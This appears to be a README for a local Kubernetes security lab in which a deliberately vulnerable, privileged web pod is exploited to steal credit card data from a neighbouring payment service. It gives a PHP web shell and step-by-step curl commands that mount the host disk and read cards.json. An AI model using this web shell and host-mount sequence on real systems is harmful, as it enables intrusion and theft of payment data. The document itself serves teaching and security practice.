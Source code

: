 # Privileged Pod

1. Install and run [minikube](https://kubernetes.io/docs/setup/learning-environment/minikube/#installation).
2. Cleanup environment if needed: `minikube delete`.
3. `./build.sh`
4. `minikube dashboard` to get ingress IP address (`192.168.99.100` in my case). 

## Web

Vulnerable application with RCE and privileged access.

## Payment

Payments processing microservice. Completely protected ;).

## Exploit

Your target is to steal users credit cards. Cards data is located in `payment` microservice (which has no security issues). But `web` microservice has an RCE vulnerability (and has `privileged`). This allows us to access any data in the cluster, including cards data.

1. Upload file `shell.php`:
    ```php
    <?php
    echo '<pre>';
    var_dump(system($_GET['cmd']));
    echo '</pre>';
    ```
2. Create temporary directory for host file system `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=mkdir%20/tmp/host`
3. Mount host's file system (`sda1` in my case but could vary) `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=mount%20/dev/sda1%20/tmp/host`
4. Find file `cards.json` in hosts filesystem `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=find%20/tmp/host%20-name%20"cards.json"`
5. Get stored cards `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=cat%20<👆>`
